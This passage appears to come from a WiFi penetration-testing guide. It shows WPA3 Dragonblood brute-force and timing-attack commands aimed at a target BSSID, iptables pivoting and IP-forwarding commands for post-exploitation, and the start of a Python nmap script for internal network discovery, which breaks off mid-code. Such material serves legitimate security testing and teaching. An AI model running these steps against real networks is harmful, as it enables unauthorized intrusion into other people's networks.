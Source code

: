 ### 5.3 WPA3 Attacks

```bash
# WPA3 SAE (Simultaneous Authentication of Equals) attacks
# Dragonblood attack implementation

# SAE password brute force
sudo wpa_supplicant -i wlan0mon -c sae_attack.conf -D nl80211

# Side-channel timing attacks
python3 dragonblood_timing.py -i wlan0mon -t [TARGET_BSSID]
```

## Phase 6: Post-Exploitation

### 6.1 Network Pivoting

```bash
# Set up routing for internal network access
sudo iptables -A FORWARD -i wlan0 -o eth0 -j ACCEPT
sudo iptables -A FORWARD -i eth0 -o wlan0 -m state --state RELATED,ESTABLISHED -j ACCEPT
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Enable IP forwarding
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```

### 6.2 Internal Network Discovery

```python
#!/usr/bin/env python3
"""
Internal Network Discovery Post WiFi Compromise
"""

import nmap
import subprocess
import json

def discover_internal_network():
    """Discover internal network topology"""
    
    # Get network information
    result = subprocess.run(['ip', 'route'], capture_output=True, text=True)
    networks = []
    
    for line in result.stdout.split('\n'):
        if 'dev' in line and '/' in line:
            network = line.split()[0]
            if not network.startswith('127'):
                networks.append(network)
    
    # Scan discovered networks
    nm = nmap.PortScanner()
    hosts = {}
    
    for network in networks:
        print(f"[+] Scanning {network}")
        nm.scan(network, arguments='-sn')
        
        for host in nm.all_hosts():
            hosts[host] = {
                'hostname': nm[host].hostname(),
                'state': nm[host].state(),
```